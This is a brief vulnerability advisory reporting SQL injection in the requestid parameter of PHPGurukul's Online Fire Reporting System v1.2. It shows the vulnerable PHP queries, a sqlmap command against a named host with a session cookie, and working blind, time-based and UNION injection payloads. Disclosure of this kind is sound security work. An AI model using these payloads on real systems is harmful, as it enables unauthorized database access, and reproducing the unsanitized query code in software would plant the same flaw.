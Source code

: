 # SQLi vulnerability in Online Fire Reporting System v1.2 of file /request-details.php

**Vender**

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Version**

- V1.2

**Vulnerable File**

- /request-details.php

**Affect Param**

- requestid

### POC

```php
$rid=$_GET['requestid'];
$query=mysqli_query($con,"select * from tblfirereport where id='$rid'");
$query=mysqli_query($con,"select * from tblfirereport join tblteams on tblteams.id=tblfirereport.assignTo where tblfirereport.id='$rid'");
$ret=mysqli_query($con,"select * from tblfiretequesthistory where requestId='$rid'");
```



```bash
sqlmap -u http://www.firereport.top/admin/request-details.php?requestid=1 --cookie="PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf" --batch
```



```
---
Parameter: requestid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: requestid=1' AND 8124=8124 AND 'SNss'='SNss

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: requestid=1' AND (SELECT 2728 FROM (SELECT(SLEEP(5)))AnQf) AND 'nAaO'='nAaO

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: requestid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71787a6271,0x45506642584c684246695942424d486c57596554545375484b5a764767496b63666449506b4c6956,0x7171717171),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



![image-20250531182947043](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311829163.png)

